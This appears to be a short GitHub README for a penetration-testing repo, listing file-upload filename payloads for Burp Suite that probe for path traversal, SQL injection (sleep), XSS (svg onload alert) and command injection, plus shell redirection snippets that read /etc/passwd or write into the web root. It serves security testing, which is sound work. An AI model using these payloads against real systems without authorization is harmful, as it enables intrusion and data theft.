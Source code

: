 # webAppVulnScripts
Here is a repo of the collective vulnerability scripts used for web applications


## Parameters to include within burp
{fileName} = hello
{fileExtension} = jpg
{fileExtension} = png
{domain} = xxx.collaboraror.org


-- Try and include localhost 

### General rule
Set filename to ../../../tmp/lol.png and try to achieve a path traversal
Set filename to sleep(10)-- -.jpg and you may be able to achieve a SQL injection
Set filename to <svg onload=alert(document.domain)> to achieve a XSS
Set filename to ; sleep 10; to test some command injection --> https://book.hacktricks.xyz/pentesting-web/command-injection


### Not executed but may be interesting
```
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```

### References
https://book.hacktricks.xyz/pentesting-web/file-upload#from-file-upload-to-other-vulnerabilities
https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt
https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology
